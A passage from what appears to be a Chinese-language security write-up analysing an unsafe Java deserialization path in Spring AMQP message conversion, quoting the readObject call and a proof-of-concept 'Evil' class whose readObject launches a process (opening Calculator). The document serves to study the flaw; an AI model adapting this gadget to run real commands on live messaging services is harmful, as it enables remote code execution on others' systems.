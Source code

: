          }
      }
	   }
	   if (content == null) {
	      content = message.getBody();
	   }
	   return content;
	}
  	
其中deserializer.deserialize是将message反序列化的过程，至于deserialize函数的内容如下:
	
	/**
	 * Read from the supplied {@code InputStream} and deserialize the contents
	 * into an object.
	 * @see ObjectInputStream#readObject()
	 */
	@Override
	@SuppressWarnings("resource")
	public Object deserialize(InputStream inputStream) throws IOException {
	   ObjectInputStream objectInputStream = new ConfigurableObjectInputStream(inputStream, this.classLoader);
	   try {
	      return objectInputStream.readObject();
	   }
	   catch (ClassNotFoundException ex) {
	      throw new NestedIOException("Failed to deserialize object type", ex);
	   }
	}
	
熟悉的readObject，只要想办法控制objectInputStream,那么就可以执行任意代码了,先查看调用链:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-7/82952844.jpg)
找到rabbitTemplate.convertSendAndReceive和rabbitTemplate.receiveAndConvert
先写一个实体类:
	
	package test;

	import java.io.*;
	
	/**
	 * Created by bsmali4 on 18/1/29.
	 */
	public class Evil implements Serializable {
	    private void readObject(ObjectInputStream objectInputStream) throws IOException, ClassNotFoundException {
        objectInputStream.defaultReadObject();
        new ProcessBuilder("open", "/Applications/Calculator.app/").start();
    }
	}
	
调试到如下位置:
![](http://ohsqlm7gj.bkt.clouddn.com/18-2-7/32871900.jpg)
触发位置就在fromMessage，那么在convertAndSend的时候不能是简单的任意对象了，必须是Message类或者其子类了。其中fromMessage代码如下:
